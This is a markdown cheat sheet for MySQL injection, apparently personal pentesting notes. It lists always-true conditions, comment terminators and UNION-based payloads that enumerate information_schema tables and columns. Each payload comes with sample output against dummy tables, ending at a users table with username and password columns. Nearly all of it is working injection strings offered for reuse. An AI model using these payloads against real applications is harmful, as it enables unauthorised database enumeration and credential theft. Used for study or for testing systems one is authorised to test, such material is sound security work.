 # MySQL Injection

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/)
[ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

   1=1
   a=a

### Escape/stop

```sql
# 
-- 
#--
```

### MySQL Verison

   select version()

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

    dummymalex:dummyms
    table_schema = dummymalex
    table_name   = dummyms

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

    LIMIT 0,1
    dummymalex:dummyms 
    table_schema = dummymalex
    table_name   = dummyms 

    LIMIT 1,1 
    dummymalex:users 	
    table_schema = dummymalex
    table_name   = users

#### column_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

    LIMIT 0,1
    ID
	
    LIMIT 1,1
    dummyms

    LIMIT 2,1
    description

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

    LIMIT 0,1
    ID

    LIMIT 1,1
    username

    LIMIT 2,1
    password
